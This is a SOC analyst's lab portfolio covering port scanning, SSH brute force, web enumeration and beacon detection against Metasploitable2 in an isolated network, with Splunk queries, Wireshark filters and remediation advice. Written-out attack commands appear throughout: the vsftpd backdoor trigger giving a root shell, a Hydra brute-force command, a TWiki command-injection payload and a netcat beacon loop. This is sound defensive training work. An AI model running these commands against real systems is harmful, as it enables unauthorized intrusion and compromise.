Most SOC analyst portfolios show tools. This one shows workflow: generate an event, catch it in logs, prove it happened at the packet level, write the detection query, tune it, and document the finding the way an analyst would write it up for a shift handoff. Every number in this handbook — every packet count, every failed login, every timing interval — was independently verified across at least two data sources (log data and raw packet capture) before being recorded as a finding.
All activity documented here was generated inside a private, fully isolated virtual network against systems owned and controlled by the author. No public systems, real organizations, or third-party infrastructure were involved at any point.
| Component | Role | Details |
|---|---|---|
| Kali Linux | Attacker platform / Wireshark capture point | Kali Rolling 2026.1 · 192.168.50.10 (eth0, labnet) · IP resets on reboot, manually re-added each session |
| Metasploitable2 | Intentionally vulnerable target | Ubuntu 8.04 · 192.168.50.20 (eth0, labnet) / 192.168.56.20 (eth1, host-only, reaches Splunk) |
| Windows Host | Splunk deployment | Splunk Enterprise (60-day trial), accessed via browser, not part of the isolated labnet segment |
| Network mode | Isolation boundary | VirtualBox Internal Network ("labnet") — no bridged adapter, no NAT, no internet access |
| Category | Tools / Skills |
|---|---|
| Virtualization | VirtualBox (Internal Network mode) |
| Attacker OS | Kali Linux Rolling 2026.1 |
| Target OS | Metasploitable2 (Ubuntu 8.04) |
| SIEM | Splunk Enterprise — SPL query writing, manual field extraction, alerting |
| Packet Analysis | Wireshark — display filters, protocol analysis, cross-source validation |
| Attack Simulation | Nmap, Gobuster, Hydra, Netcat |
| Detection Engineering | SPL, Sigma rule authoring, threshold tuning rationale |
| Analytical Skills | MITRE ATT&CK mapping, true/false positive assessment, incident report writing, root cause analysis |
STATUS: COMPLETE · MITRE ATT&CK: T1595 (Active Scanning), T1046 (Network Service Discovery)
Simulate an attacker's initial reconnaissance phase by scanning the isolated target (Metasploitable2) from Kali Linux, then detect and validate that activity using Wireshark, and map it to MITRE ATT&CK.
nmap -sT -sV 192.168.50.20
scenario1-portscan.pcapng.Starting Nmap 7.98 ( https://nmap.org ) at 2026-07-18 19:38 -0400 Nmap scan report for 192.168.50.20 Host is up (0.00071s latency). Not shown: 977 closed tcp ports (conn-refused) PORT STATE SERVICE VERSION 21/tcp open ftp vsftpd 2.3.4 22/tcp open ssh OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0) 23/tcp open telnet Linux telnetd 25/tcp open smtp Postfix smtpd 53/tcp open domain ISC BIND 9.4.2 80/tcp open http Apache httpd 2.2.8 ((Ubuntu) DAV/2) 111/tcp open rpcbind 2 (RPC #100000) 139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP) 445/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP) 512/tcp open exec netkit-rsh rexecd 513/tcp open login OpenBSD or Solaris rlogind 514/tcp open shell Netkit rshd 1099/tcp open java-rmi GNU Classpath grmiregistry 1524/tcp open bindshell Metasploitable root shell 2049/tcp open nfs 2-4 (RPC #100003) 2121/tcp open ftp ProFTPD 1.3.1 3306/tcp open mysql MySQL 5.0.51a-3ubuntu5 5432/tcp open postgresql PostgreSQL DB 8.3.0 - 8.3.7 5900/tcp open vnc VNC (protocol 3.3) 6000/tcp open X11 (access denied) 6667/tcp open irc UnrealIRCd 8009/tcp open ajp13 Apache Jserv (Protocol v1.3) 8180/tcp open http Apache Tomcat/Coyote JSP engine 1.1 MAC Address: 08:00:27:B9:CA:24 (Oracle VirtualBox virtual NIC) Nmap done: 1 IP address (1 host up) scanned in 15.32 seconds


Tested directly from Kali against the target's FTP service (port 21) using the documented trigger method: sending a username containing the string :), followed by a connection attempt to port 6200.
ftp 192.168.50.20 Name: rithika:) Password: [any value, login itself fails/is irrelevant]
nc 192.168.50.20 6200
Result across four attempts: three returned Connection refused; the fourth succeeded, dropping directly into a shell with no authentication prompt:
whoami root hostname metasploitable id uid=0(root) gid=0(root)
This confirms full, unauthenticated root access on the target via this backdoor. The inconsistency across attempts (3 failures, 1 success) suggests the malicious code path is timing-sensitive rather than unreliable by design.

whoami returns root, confirming unauthenticated root shell access via the vsftpd backdoor.
hostname and id commands confirming root-level access (uid=0) on the target machine.
ip.addr==192.168.50.20 && tcp.flags.syn==1 && tcp.flags.ack==0, confirming the SYN packet burst matching the Nmap scan.| Question | Answer |
|---|---|
| What is the earliest indicator that a scan is occurring? | The Wireshark capture is the defender-side indicator — a burst of SYN packets from 192.168.50.10 to 192.168.50.20 across many destination ports within the 15.32-second window. |
| How many unique ports were touched, and over what time window? | Nmap's default top-1000-port list was probed (23 came back open, 977 closed) in 15.32 seconds — roughly 65 ports per second. |
| Does the scan pattern in Wireshark match what Nmap reported? | Confirmed. The filter shows a burst of SYN packets starting roughly 2.6 seconds into the capture, hitting a wide, non-sequential spread of destination ports — consistent with Nmap's default port-randomization behavior. |
| Would this scan pattern be distinguishable from a legitimate service discovery tool? | -sT is a full TCP connect scan, by design harder to distinguish from a normal application connecting than a stealth -sS scan. The distinguishing signal is volume and speed — 65 ports/sec against nearly every well-known port in 15 seconds is not normal client behavior. |
| Type | Value | Notes |
|---|---|---|
| Source IP | 192.168.50.10 | Kali attacker IP |
| Scan pattern | 1000 ports probed, 23 open / 977 closed, 15.32 seconds (~65 ports/sec) | TCP connect scan (-sT), full three-way handshake per port |
| Exposed backdoored services | vsftpd 2.3.4 (port 21), UnrealIRCd (port 6667), root bindshell (port 1524) | Pre-existing on Metasploitable2, discovered by the scan |
True positive by design — this was a deliberate, controlled scan run by the lab operator. In a real environment, this would be distinguished from a false positive (e.g. a scheduled internal vulnerability scanner like Nessus or Qualys) by checking whether the source IP is on an approved scanner allowlist and whether the timing matches a known scan schedule.
Splunk correlation was not pursued for this scenario. Metasploitable2 does not log incoming connection attempts by default, and no additional log source was introduced to capture this activity. Detection and validation for this scenario relied on Wireshark packet-level analysis and direct Nmap output, which together provide sufficient evidence for the finding. The Splunk/SIEM detection skillset is demonstrated in Scenarios 2 and 4.
Pending final write-up.
STATUS: COMPLETE · MITRE ATT&CK: T1110.001 (Brute Force: Password Guessing), T1021.004 (Remote Services: SSH)
Simulate a brute-force authentication attack against SSH, detect it in Splunk using a volume-based threshold query, and independently validate the finding at the packet level using Wireshark — a distinct detection method from Scenario 4's timing-based approach.
hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.50.20
/var/log/auth.log.attack_sample3.log and uploaded into Splunk via Add Data → Upload, with sourcetype manually set to linux_secure (auto-detection did not select this correctly).index=main sourcetype=linux_secure) before building any detection logic — 1,698 events landed, closely matching the 1,694 failed attempts recorded in the original attack.index=main sourcetype=linux_secure "Failed password" | rex field=_raw "from (?<src_ip>\d+\.\d+\.\d+\.\d+)" | bin _time span=5m | stats count by src_ip, _time | where count > 5
Result: 2 rows returned, both from source IP 192.168.50.10 — 1,041 failures in one 5-minute bin, 653 failures in the following bin. Total: 1,694, matching the original attack count exactly. Both bins are far above the >5 threshold, correctly flagging the activity as brute-force behavior.


Failed password for msfadmin from 192.168.50.10) and sourcetype parsing.
An alert named "SSH Brute Force Detection" was built on this query, with trigger condition "Number of Results > 0" and a trigger action (Add to Triggered Alerts). The first save attempt failed with the error "enable at least one action" — resolved by adding a trigger action before saving again.

Filter applied: ip.addr==192.168.50.20 && tcp.port==22. Since SSH traffic is encrypted, this validates connection volume and timing rather than credential content — the capture shows repeated SSHv2 Key Exchange Init / Diffie-Hellman handshake sequences followed by RST packets, the packet-level signature of automated brute forcing.
Result: 1,679 packets matched the filter out of 1,683 total captured (99.8% displayed, 0% dropped) — closely matching the 1,694 failed attempts recorded in the auth log, independently confirming the same event at the network level.

| Question | Answer |
|---|---|
| What is the time gap between individual failed attempts? | Attempts land within fractions of a second of each other (multiple SSH handshakes within a 0.03-second window), consistent with automated tooling. |
| Single username or many? | Single username (msfadmin) tried repeatedly — a targeted brute force, not credential stuffing. |
| Did the attack culminate in a successful login? | Not tested or confirmed in this scenario. Scope was detection and validation of failed-login volume rather than achieving a successful compromise. |
| How does the threshold hold up against normal user behavior? | >5 failures/5 minutes is well above what a legitimate user mistyping a password would generate (typically 1–3 attempts), keeping false-positive risk low. |
| Observation worth flagging | The ingested log file contained events spanning more than one calendar day (July 4 and July 5) — likely reflecting multiple attack runs concatenated into one log file. |
| Technique | Name | Justification |
|---|---|---|
| T1110.001 | Brute Force: Password Guessing | Hydra systematically tried a leaked password list against a single known username via SSH |
| T1021.004 | Remote Services: SSH | The targeted service was SSH remote login |
Problem: During testing, SSH on the target machine allowed unlimited login attempts with no lockout or blocking mechanism in place. This let Hydra attempt 1,694 passwords in roughly 10 minutes without the system pushing back or slowing down.
Why it matters: If the target password had been weak instead of strong, this lack of protection would have let an attacker brute-force the password, log in, and gain root access. This is a realistic risk because free, widely available tools like Hydra require minimal skill to use, and combined with leaked password lists, make this attack trivial to carry out against any system without login protections.
Fix: Implement fail2ban, a tool that monitors authentication logs and automatically blocks an IP address after it exceeds a failure threshold — for example, more than 5 failed login attempts within a 5-minute window, matching the detection logic used in this investigation. This adds a second layer of defense so security doesn't depend entirely on password strength alone.
STATUS: COMPLETE · MITRE ATT&CK: T1595.003 (Wordlist Scanning), T1592 (Gather Victim Host Information)
Simulate an attacker enumerating web application paths and directories on Metasploitable2's web service, validate at the packet level in Wireshark, and map the finding to MITRE ATT&CK.
ping to falsely appear successful (Kali was pinging itself) while curl/HTTP failed outright. Diagnosed via ip addr show | grep 192.168.50 and fixed with ip addr del/ip addr add. See Section 6 for full detail.
gobuster dir -u http://192.168.50.20 -w /usr/share/wordlists/dirb/common.txt
scenario3-httpenum-v2.pcapng.Gobuster v3.8.2 [+] Url: http://192.168.50.20 [+] Method: GET [+] Threads: 10 [+] Wordlist: /usr/share/wordlists/dirb/common.txt [+] Negative Status codes: 404 .htaccess (Status: 403) [Size: 295] .htpasswd (Status: 403) [Size: 295] cgi-bin/ (Status: 403) [Size: 294] dav (Status: 301) [Size: 317] [--> http://192.168.50.20/dav/] index.php (Status: 200) [Size: 891] phpinfo.php (Status: 200) [Size: 48011] phpMyAdmin (Status: 301) [Size: 324] [--> http://192.168.50.20/phpMyAdmin/] server-status (Status: 403) [Size: 299] test (Status: 301) [Size: 318] [--> http://192.168.50.20/test/] twiki (Status: 301) [Size: 319] [--> http://192.168.50.20/twiki/] Progress: 4613 / 4613 (100.00%) Finished
Filter applied: http.request && ip.addr == 192.168.50.20. Result: 4,615 displayed HTTP requests, matching Gobuster's 4,613 wordlist entries (small overhead from initial handshake/setup traffic). Confirmed no response packets were counted by checking individual paths.



No exploitation required — this page is publicly viewable by design and dumps the server's full PHP configuration.
curl http://192.168.50.20/phpinfo.php
| Detail | Value | Why it matters |
|---|---|---|
| PHP version | 5.2.4-2ubuntu5.10 | Over 15 years out of date; multiple known CVEs |
| Web server | Apache/2.2.8 (Ubuntu) DAV/2 | Independently confirms the Nmap fingerprint from Scenario 1 |
| Document root | /var/www/ | Exact filesystem location, useful if file read/write vulnerability found |
| PHP config path | /etc/php5/cgi/php.ini | Exact configuration file location |
| MySQL client | 5.0.51a | Tells an attacker exactly which MySQL-side vulnerabilities might apply |
Confirmed reachable via header check (HTTP 200, valid session cookies, Last-Modified: Tue, 09 Dec 2008 header confirming this install is contemporaneous with the rest of the outdated software on this box). Credential testing attempted: root/blank, root/root, root/msfadmin, msfadmin/msfadmin. All four attempts returned "Access denied" — confirmed negative finding.

Confirmed the TWiki install is genuinely a 2003-era build (revision r1.20 in page footer). Command injection tested via the search parameter in bin/search:
curl "http://192.168.50.20/twiki/bin/search/Main/?scope=text;regex=on;search=';`echo HELLO_FROM_TWIKI`;'"
Result: the payload was returned as literal, unexecuted search text. No command execution occurred — confirmed negative result.


Finding 1 (phpinfo.php): Remove phpinfo.php entirely from the production web server. If similar diagnostic info is needed, restrict it to internal-only access via firewall rule or IP allowlist.
Finding 2 (phpMyAdmin): Restrict phpMyAdmin to internal-only access via a firewall rule allowing only trusted IPs, and enable account lockout after a small number of failed attempts.
Finding 3 (TWiki): If TWiki isn't needed, remove it entirely. If required, upgrade to a current, supported version, and restrict access via firewall rule while the upgrade is scheduled.
No Apache access log was ingested into Splunk for this scenario. Detection and validation relied on Gobuster's own output cross-validated against Wireshark's HTTP request count. The Splunk/SIEM detection skillset is demonstrated in Scenarios 2 and 4.
STATUS: COMPLETE · MITRE ATT&CK: T1071 (Application Layer Protocol), T1571 (Non-Standard Port)
Simulate a compromised host generating periodic outbound "beacon" traffic back to an attacker-controlled listener, and detect the underlying timing pattern using Wireshark and Splunk. Unlike Scenario 2 (volume-based detection), this scenario detects a threat by the regularity of its timing — a distinct, more advanced detection technique used to catch real malware beaconing.
Listener on Kali:
nc -lvkp 4444
Beacon loop on Metasploitable2 (typed manually, one line):
while true; do echo beacon | nc -w 2 192.168.50.10 4444; sleep 30; done
Note: the original plan was to use timeout 2, but Metasploitable2's Ubuntu 8.04 base does not have timeout installed — nc -w 2 (netcat's own built-in timeout) was used instead, achieving the same effect.
Filter: ip.addr==192.168.50.20 && tcp.port==4444. 46 total packets captured, 28 matched. Two fully successful beacons at the start (full handshake + "beacon" payload delivered), followed by six later attempts refused (listener stopped accepting new connections) — but every attempt, successful or refused, occurred on the same ~30-second schedule.


